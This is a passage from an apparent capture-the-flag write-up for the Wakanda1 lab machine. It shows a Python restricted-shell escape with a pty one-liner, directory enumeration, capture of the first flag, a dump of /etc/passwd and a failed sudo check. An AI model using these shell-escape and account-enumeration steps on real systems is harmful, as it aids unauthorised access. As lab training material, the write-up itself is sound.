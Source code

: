 Oh nice, Python as shell. We can easily escape that "jail" with `import pty; pty.spawn("/bin/sh")`. Basic enumeration and obtaining the first flag:

```shell
$ ls -al
total 24
drwxr-xr-x 2 mamadou mamadou 4096 Aug  5 02:24 .
drwxr-xr-x 4 root    root    4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root    root       9 Aug  5 02:24 .bash_history -> /dev/null
-rw-r--r-- 1 mamadou mamadou  220 Aug  1 13:15 .bash_logout
-rw-r--r-- 1 mamadou mamadou 3515 Aug  1 13:15 .bashrc
-rw-r--r-- 1 mamadou mamadou   41 Aug  1 15:52 flag1.txt
-rw-r--r-- 1 mamadou mamadou  675 Aug  1 13:15 .profile
$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mamadou:x:1000:1000:Mamadou,,,,Developper:/home/mamadou:/usr/bin/python
devops:x:1001:1002:,,,:/home/devops:/bin/bash
$ sudo -l
[sudo] password for mamadou: 
Sorry, user mamadou may not run sudo on Wakanda1.
```

We obtained our first flag, also we see that there is another user: `devops`. User `mamadou` is not allowed to run any **sudo** commands \*sigh\*.
